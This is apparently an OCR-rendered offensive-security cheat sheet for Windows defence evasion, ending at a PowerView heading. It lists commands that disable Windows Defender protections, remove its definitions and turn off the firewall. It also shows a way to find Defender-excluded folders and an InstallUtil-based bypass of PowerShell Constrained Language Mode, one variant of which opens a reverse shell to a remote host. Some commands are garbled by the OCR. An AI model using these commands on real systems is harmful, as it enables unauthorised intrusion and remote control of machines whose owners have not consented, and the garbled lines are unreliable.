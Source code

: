 - Disable Defender if Tamper Protection is off
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```

- cmd
```cmd
cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all  
```

- disable firewall
```powershell
NetSh Advfirewall set allprofiles state off
```

* Search for Directories that might be excluded by Defender (low privs method)
```powershell
Get-WinEvent-Logname Microsoft-Windows-Windows Defender/Operational" -FilterXPath "*[System[(EventID=5007)]]" | Where-Object { $_.Message - like
"*exclusions\Path*" } |Select-Object Message | FL
```
#### Evasion Methodology

- https://book.hacktricks.xyz/windows-hardening/av-bypass#av-evasion-methodology


## Constrained Language Mode (CLM)

##### Check if in CLM:

```powershell
$ExecutionContext.SessionState.LanguageMode
```


- altbypass (https://github.com/Octoberfest7/OSEP-Tools/tree/main/altbypass)...have compiled on Win11 and in www directory

#### PSByPassCLM (Windows Server 2016 Tested)
- https://github.com/padovah4ck/PSByPassCLM

Direct bypass:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

Reverse shell:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## PowerView
